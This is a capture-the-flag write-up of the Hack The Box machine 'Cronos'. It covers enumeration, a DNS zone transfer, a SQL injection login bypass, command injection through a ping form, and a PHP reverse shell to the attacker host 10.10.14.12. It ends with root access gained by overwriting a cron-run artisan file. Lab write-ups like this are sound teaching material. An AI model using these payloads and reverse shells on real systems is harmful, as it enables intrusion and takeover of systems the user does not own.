

# MEDIUM - CRONOS

# 1. Enumeration

## 1.1 Open Ports

I started pinging the target to check if it was a Linux or a Windows system. The Time-To-Live (ttl) was 63, which is very close to 64, so it was a Linux system. Had it been close to 128 (or 128) it would have been a Windows system. After that I conducted an Nmap scan to detect active services on the target using `-p-` to scan all ports. Given that it was a Hack The Box machine (a controlled environment), I optimized the scan for speed using the following flags: `--min-rate 5000`, `-sS` for a SYN scan, `-Pn` to skip the host discovery stage, `-n` to skip reverse DNS resolution and `-T5` for higher speed.

The scan revealed the following open ports:

- **SSH** on port 22.
- **DNS** on port 53.
- **HTTP** on port 80.

Next, I performed a more detailed scan on those ports with service version detection (`-sV`) and used the Nmap Scripting Engine (NSE) with default scripts (`-sC`). I saved the output for reference using the `-oN` flag.

## 1.2 Web Enumeration

Then I ran `gobuster` to brute force hidden directories but I couldn´t find any files or directories. Navigating to the site I found the default apache2 page.

Since the scan revealed a DNS service running on the target, I used `nslookup` to verify that the target, `10.10.10.13`, was indeed the default DNS server on the network. Additionally, I queried the server to identify the domain it was associated with. The response confirmed that the target was resolving to `ns1.cronos.htb`, indicating that the target was handling DNS requests for the `cronos.htb` domain.

After identifying the DNS server, I used `dig` to attempt a zone transfer (`AXFR`) on the `cronos.htb` domain, with the target as the DNS server (`10.10.10.13`). The zone transfer was successful and revealed some subdomains. I added those subdomains to the `/etc/hosts` file and then navigated to each of them.

As `cronos.htb` didn´t contain anything which seemed to be useful at first, I kept going.

# 2. Gaining Access

Navigating to admin.cronos.htb revealed a login panel. I intercepted the login POST request using `BurpSuite` and sent it to Repeater to test for potential SQL injection vulnerabilities. After trying various payloads, I successfully bypassed the authentication using the payload `' OR '1'='1'-- -`. This SQL injection tricked the application into granting access by always evaluating the condition as true.

---

After gaining access to the login panel, I discovered a tool that allowed me to execute ping and traceroute commands against any IP address I entered. Upon pressing the execute button, the output displayed was identical to the Linux command line output for the `ping` command. This behavior suggested the possibility of a Remote Code Execution vulnerability. To test this, I tried appending `|whoami` to the input, which successfully executed the command and returned the current user name.

Using the payload `| php -r '$sock=fsockopen("10.10.14.12",5555);exec("/bin/sh -i <&3 >&3 2>&3");'`, I established a reverse shell connection to my command line. This allowed me to execute commands on the target machine and retrieve the user flag.

# 3. Privilege Escalation

I tried checking if I had any sudo permissions but I needed the password to do so. So I decided to start a HTTP server with Python and serve `pspy64` to run it on the target and find some possible services running in the background. After some time `/bin/sh -c php /var/www/laravel/artisan` was run  as root so I checked if I had write permissions on it and I did. 

I attempted to check for any sudo permissions but found that I needed the password to do so. After that I started a HTTP server using Python to serve the `pspy64` tool, and ran it to identify processes running in the background without needing elevated privileges. After some time, I noticed that the command `/bin/sh -c php /var/www/laravel/artisan` was executed as root. I then checked for write permissions on this file and confirmed that I had the ability to modify it.

Using `echo -e '#!/usr/bin/env php\n<?php\n$sock = fsockopen("10.10.14.12", 5555);\nexec("/bin/sh -i <&3 >&3 2>&3");' > artisan` I generated a new `artisan` file containing the PHP reverse shell code. After some time, this file was executed again as root. As a result, I gained root permissions and was able to retrieve the root flag.

